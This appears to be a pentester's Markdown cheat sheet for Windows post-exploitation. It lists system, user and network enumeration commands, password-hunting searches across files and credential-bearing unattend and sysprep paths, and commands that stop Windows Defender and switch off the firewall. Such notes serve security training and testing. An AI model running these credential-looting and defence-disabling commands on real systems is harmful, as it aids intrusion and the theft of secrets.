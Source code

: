 # System Enumeration: 
```cmd
systeminfo
systeminfo | findstr /B /C:"OS Name" /C:"OS Version" /C:"System Type"
hostname
wmic qfe
wmic qfe get Caption,Description,HotFixID,InstalledOn
wmic logicaldisk get caption,description,providername

```

# User Enumeration:
```cmd
whoami
whoami /priv
whoami /groups
net user
net user <user-name>
net localgroup

```

# Network Enumeration: ;
```cmd
ipconfig 
ipconfig /all
arp -a        # check "Internet Address" connections
route print
netstat -ano  # check for possible port forwarding exploits for internal only listening ports

```

# Password Hunting: 
https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/findstr
```cmd
findstr /si password *.txt *.ini *.config *.xml
findstr /spin "password" *.*
dir /s *pass* == *cred* == *vnc* == *.config*
```
https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20Privilege%20Escalation.md#eop---looting-for-passwords

## common files:
```cmd
c:\sysprep.inf
c:\sysprep\sysprep.xml
c:\unattend.xml
%WINDIR%\Panther\Unattend\Unattended.xml
%WINDIR%\Panther\Unattended.xml

```
## Command search for files:
```cmd
dir c:\*vnc.ini /s /b
dir c:\ /s /b | findstr /si *vnc.ini

```
# AV Enumeration:
```cmd
sc query windefend
sc query | findstr /i "virus"
wmic service get Name,Displayname | findstr /i virus

```

## Example: 
```
C:\Users\bob>wmic service get Name,Displayname | findstr /i virus
Microsoft Defender Antivirus Network Inspection Service                             WdNisSvc
Microsoft Defender Antivirus Service                                                WinDefend
```
### Disable firewall
```cmd
sc config WinDefend start= disabled
sc stop WinDefend
```
```powershell
Set-MpPreference -DisableRealtimeMonitoring $true
Uninstall-WindowsFeature -Name Windows-Defender
```
#### Help:
```cmd
sc /?
sc config /?
```

# Firewall Enumeration:
```cmd
netsh advfirewall firewall dump
netsh firewall show state

```
### Disbale Firewall:
```
netsh advfirewall set all state off
```


# Tools: 

